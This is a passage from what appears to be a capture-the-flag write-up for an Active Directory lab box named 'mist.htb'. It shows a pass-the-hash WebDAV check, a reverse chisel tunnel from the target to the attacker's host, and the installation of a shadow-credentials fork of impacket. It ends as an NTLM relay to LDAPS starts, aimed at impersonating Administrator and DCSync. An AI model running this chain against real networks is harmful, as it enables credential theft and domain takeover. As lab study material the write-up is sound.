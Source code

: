```console

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
``` 
Start apache2 service and run ```cadaver http://localhost/```, if there isnt any error, its great.

```powershell
PS C:\xampp\htdocs\data\modules\aa> net use x: http://10.10.14.7/

The command completed successfully
```
Now test 

```bash
proxychains -q nxc smb 192.168.100.101 -u 'Brandon.Keywarp' -H 'db[...]c9' -M webdav
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:mist.htb) (signing:False) (SMBv1:False)
SMB         192.168.100.101 445    MS01             [+] mist.htb\Brandon.Keywarp:db[...]c9 
WEBDAV      192.168.100.101 445    MS01             WebClient Service enabled on: 192.168.100.101
```
Ok nice now we are gonna use [this PR](https://github.com/fortra/impacket/pull/1402) to clear shadowcreds and set shadowcres on MS01$, then impersonate Administrator and DCSync :

First we need to forward the port that we gonna trigger :

```bash
#on local machine
chisel server -p 6665 --reverse

#on target machine
./chisel.exe client 10.10.14.7:6665 8082:10.10.14.7:8080
```
Now setup our impacket with the PR

```bash
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
python3 -m venv .venv
source .venv/bin/activate/
#adjust requirements.txt for pyOpenSSL==23.2.0
python3 setup.py install
pip3 install -r requirements.txt

# I got some issue with PKCS12 so if you have some issues too, just do this
pip uninstall pyOpenSSL asgiref
sudo apt-get remove python3-asgiref 
pip install asgiref==3.7.2  
pip install pyOpenSSL==23.2.0 urwid-mitmproxy==2.1.2.1
```
[The link who helped me to resolve the problem of PKCS12](https://github.com/fortra/impacket/issues/1716)


Start the attack :

```bash
# stop the service to start ntlmrelayx
service apache2 stop

proxychains python3 ntlmrelayx.py -t ldaps://192.168.100.100 --delegate-access -i
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/libproxychains4.so
[proxychains] DLL init: proxychains-ng 
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client SMB loaded..
```